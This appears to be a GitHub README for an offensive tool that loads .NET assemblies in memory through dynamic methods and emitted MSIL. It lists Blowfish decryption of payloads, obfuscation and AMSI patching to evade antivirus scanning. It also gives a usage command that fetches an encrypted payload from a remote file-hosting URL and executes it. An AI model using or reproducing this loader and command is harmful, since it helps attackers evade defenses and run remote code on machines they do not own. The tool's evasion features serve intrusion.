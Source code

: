 
the technique has been shared by @bohops, which perform DotNET assembly loading using dynamic methods and Emitted MSIL Instructions. 

### What i have done ? 

* implement ECB blow fish stream decryption for Assembly payload.
* adding obfuscation methods 
* support AMSI patching

### How to use

- compile the project into x64 release 
- upload your assembly payload wanna load into http://blowfish.online-domain-tools.com/ for encryption or you can use any alternative but i like this site as it allows to 
host remote files. 
- execute the tool ( DotNET_Assemblyloader.exe "[remote encrypted payload]" "password" "assembly arguments" )
```
e.g 

C:\tmp\DotNET_Assemblyloader.exe "http://blowfish.online-domain-tools.com/?taskId=49397133&cacheIdentifier=2023-02-04__03-48-10__330597&do=downloadAsBinary" 123456 -group=system
 
```
![image](https://user-images.githubusercontent.com/10256911/216748095-57a297b7-4053-4f28-87ee-39e55e73d9d6.png)



 
